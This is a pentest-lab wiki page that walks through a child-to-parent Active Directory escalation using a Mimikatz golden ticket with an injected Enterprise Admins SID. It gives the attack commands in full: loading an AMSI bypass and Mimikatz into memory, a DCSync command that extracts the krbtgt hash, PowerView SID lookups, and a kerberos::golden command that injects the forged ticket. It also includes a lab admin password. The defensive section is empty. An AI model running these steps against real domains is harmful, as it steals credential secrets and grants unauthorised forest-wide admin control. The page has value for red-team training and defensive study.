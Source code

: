 # Krbtgt hash

## Attacking

### How it works

Once you gain Domain Admin privileges within the child domain its possible to get Enterprise Admin in the parent domain by generating a golden ticket in the child domain with the SID of the Enterprise Admin group.

### Tools

* [MimiKatz](https://github.com/samratashok/nishang/blob/master/Gather/Invoke-Mimikatz.ps1)
* [PowerView](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1)

### Executing the attack

The attack is executed from the perspective of already gaining domain admin privileges. This is done in the unconstrained delegation section:

{% content-ref url="../delegation-attacks/unconstrained-delegation/" %}
[unconstrained-delegation](../delegation-attacks/unconstrained-delegation/)
{% endcontent-ref %}

1. For easy execution, login on `WS01` as the `Administrator` user with the password `Welcome01!`.
2. Start PowerShell as Administrator and load a amsi bypass and MimiKatz into memory.

![](<../../../.gitbook/assets/image (20).png>)

To execute the attack we need a couple bits of information:

* The hash of the krbtgt user.
* The SID of the Enterprise Admins group.
* The SID of the child domain.

3\. Execute a DCsync with MimiKatz and only retrieve the krbtgt hash:

```
Invoke-MimiKatz -Command '"lsadump::dcsync /user:amsterdam\krbtgt /domain:amsterdam.bank.local"'
```

![](<../../../.gitbook/assets/image (22) (1).png>)

4\. Retrieve the SID of the enterprise Admins group, using PowerView:

```
Get-DomainGroup "Enterprise Admins" -Domain bank.local | Select-Object samaccountname, objectsid
```

![](<../../../.gitbook/assets/image (34).png>)

5\. Retrieve the domain SID from the child domain, using PowerView:

```
Get-DomainSID
```

![](<../../../.gitbook/assets/image (21).png>)

6\. Create a golden ticket with MimiKatz and inject it into the current session:

```
Invoke-Mimikatz -Command '"kerberos::golden /user:Administrator /domain:<FQDN CHILD DOMAIN> /sid:<CHILD DOMAIN SID> /krbtgt:<HASH> /sids:<SIDS OF ENTERPRISE ADMIN GROUP OF TARGET> /ptt"'
```

![](<../../../.gitbook/assets/image (70).png>)

7\. The ticket injected successfully, now we can dir the c$ directory to check if our user has read/write access to the C disk:

![](<../../../.gitbook/assets/image (75).png>)

## Defending

### Detection



## References

{% embed url="https://github.com/samratashok/nishang/blob/master/Gather/Invoke-Mimikatz.ps1" %}
